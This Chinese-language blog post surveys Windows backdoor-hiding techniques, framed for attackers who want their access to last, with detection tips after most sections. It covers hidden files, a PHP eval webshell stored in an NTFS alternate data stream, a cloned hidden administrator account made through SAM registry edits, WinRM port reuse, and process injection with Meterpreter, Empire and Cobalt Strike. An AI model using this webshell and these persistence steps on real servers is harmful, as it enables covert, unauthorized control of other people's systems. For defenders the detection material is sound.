








### 0x00 前言

攻击者在获取服务器权限后，通常会用一些后门来维持权限，如果你想让你的后门保持的更久些，那么请隐藏好它，使之不易被管理员发现。

### 0x01 隐藏文件

**1、利用文件属性**

最简单的一种隐藏文件的方式，文件右键属性，勾选隐藏，点击确定后，在这个文件里看不到刚刚的文件了。


如果要让文件显示出来，就点击查看，勾选显示隐藏的文件，文件就显示出来。


如何真正隐藏文件？

使用Attrib +s +a +h +r命令就是把原本的文件夹增加了系统文件属性、存档文件属性、只读文件属性和隐藏文件属性。

`attrib +s +a +h +r  D:\test\project\test`.txt

这样就做到了真正的隐藏，不管你是否显示隐藏文件，此文件夹都看不见。

破解隐藏文件：

打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文件、文件夹和驱动器”。


**2、利用ADS隐藏文件内容**

​	在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞： 　

```
echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
```

这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。　

```
问题1：如何查看index.php:hidden.jpg内容呢？

　　	进入文件所在目录，notepad index.php:hidden.jpg    或者 dir /r
　　	
问题2：如何删除index.php:hidden.jpg？

     直接删除index.php即可
```

**3、驱动级文件隐藏**

驱动隐藏我们可以用过一些软件来实现，软件名字叫：Easy File Locker      

下载链接： http://www.xoslab.com/efl.html

如果你在网站目录未查找到相关文件，且系统目录存在存在以下文件：

```
c:\WINDOWS\xlkfs.dat
c:\WINDOWS\xlkfs.dll
c:\WINDOWS\xlkfs.ini
c:\WINDOWS\system32\drivers\xlkfs.sys
```

那么你，应该是遭遇了驱动级文件隐藏。

如何清除？

~~~
1、查询服务状态： sc qc xlkfs
2、停止服务： net stop xlkfs 服务停止以后，经驱动级隐藏的文件即可显现
3、删除服务： sc delete xlkfs
4、删除系统目录下面的文件，重启系统，确认服务已经被清理了。
~~~

隐藏文件的方式还有很多，比如伪装成一个系统文件夹图标，利用畸形文件名、保留文件名无法删除，甚至取一个与系统文件很像的文件名并放在正常目录里面，很难辨别出来。

这些隐藏文件的方式早已不再是秘密，而更多的恶意程序开始实现“无文件”攻击，这种方式极难被发现。

### 0x02 隐藏账号

window 隐藏系统用户操作，CMD命令行下，建立了一个用户名为“test$”，密码为“abc123!”的简单隐藏账户,并且把该隐藏账户提升为了管理员权限。


PS:CMD命令行使用"net user",看不到"test$"这个账号，但在控制面板和本地用户和组是可以显示此用户的。

克隆账号制作过程：

1、“开始”→“运行”，输入“regedt32.exe”后回车,需要到“HKEY_LOCAL_MACHINE\SAM\SAM”，单机右建权限，把名叫：administrator的用户给予：完全控制以及读取的权限，在后面打勾就行，然后关闭注册表编辑器，再次打开即可。



2、来到注册表编辑器的“HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names”处，点击test$用户，得到在右边显示的键值中的“类型”一项显示为0x3ec，找到箭头所指目录。



3、找到administrator所对应的的项为“000001F4”，将“000001F4”的F值复制到“000003EC”的F值中，保存。


4、分别test$和“000003EC导出到桌面，删除test$用户   net user test$ /del



5、将刚才导出的两个后缀为.reg的注册表项导入注册表中。这样所谓的隐藏账户就创建好了。PS：不管你是在命令提示符下输入net user 或者在系统用户管理界面都是看不到test$这个账户的，只有在注册表中才能看得到。

检测和清理方法：

使用D盾_web查杀工具，使用克隆账号检测功能进行查看，可检测出隐藏、克隆账号。


### 0x03 端口复用

通过端口复用来达到隐藏端口的目的，在Window下，如何实现端口复用呢？

前阵子，@Twi1ight公布了一种基于内置系统服务的端口复用后门方法，利用WinRM服务，一条命令实现端口复用后门：

`winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}`

一般开启WinRM服务作为远程管理，但还是第一次听到可以作为端口复用，一种简单容易实现的端口复用方式。假设，攻击者已获取到administrator账号密码，连接远程WinRM服务执行命令：


当执行这条命令的同时，将在安全日志中留下痕迹，



另外，可以通过代码实现端口复用重定向，工具：https://github.com/crabkun/Switcher

### 0x04 进程注入

进程注入，一直是病毒木马的惯用手段，同时，它也是一种隐藏技术。在常见的渗透测试框架中，进程注入是怎么做的以及我们如何通过工具排查出来？

**1、meterpreter会话注入**

当前权限无法获取hash值，查看目前系统进程



通过migrate将进程注入到system进程后，成功获得hash值。


Window后门排查：

通过TCPview显示已建立的TCP连接，我们可以看到异常的连接，同时，恶意软件将以绿色显示不到一秒钟，然后变成红色消失，如此循环。 



**2、Empire会话进程注入**

通过psinject模块进行会话注入，直接输入ps选择一个SYSTEM权限的进程PID，使用进程注入模块，来获取权限。如下图：


Window后门排查：利用process monitor或者火绒剑监控进程都可以定位到注入进程。





**3、Cobalt Strike进程注入**

选择进程，点击inject，随后选择监听器，点击choose，即可发现Cobaltstrike弹回了目标机的一个新会话，这个会话就是成功注入到某进程的beacon。


Window后门排查：利用process monitor捕捉通信过程，有规律的请求取决于sleep设置的间隔。


### 0x05  结束

本文主要介绍了Window下的几种隐藏技术，包括隐藏文件、隐藏账号、端口复用、进程注入等方面的简单实现及其排查技巧。仅作抛砖引玉之用，欢迎留言分享。


参考链接：

Canisrufus:一款基于Python的Windows隐藏后门

https://github.com/maldevel/canisrufus

windows常见backdoor、权限维持方法及排查技术

https://xz.aliyun.com/t/4842

TALES OF A BLUE TEAMER: DETECTING POWERSHELL EMPIRE SHENANIGANS WITH SYSINTERNALS

https://holdmybeersecurity.com/2019/02/27/sysinternals-for-windows-incident-response/

Hide Toolz 进程隐藏工具

官网地址:https://www.hidetoolz.com/

HideToolz是一款简单小巧的软件，可以隐藏进程，一键隐藏你想隐藏的程序

#### Cymothoa

注入工具

cs 进程注入

<https://bbs.ichunqiu.com/thread-53003-1-1.html>

### Metasploit注入 dll

<https://blog.csdn.net/Fly_hps/article/details/80427707>

几种后门和权限维持技术外还有像是dll劫持、一些软件的插件后门、office后门等。

<https://blog.csdn.net/qq_33020901/article/details/89504902>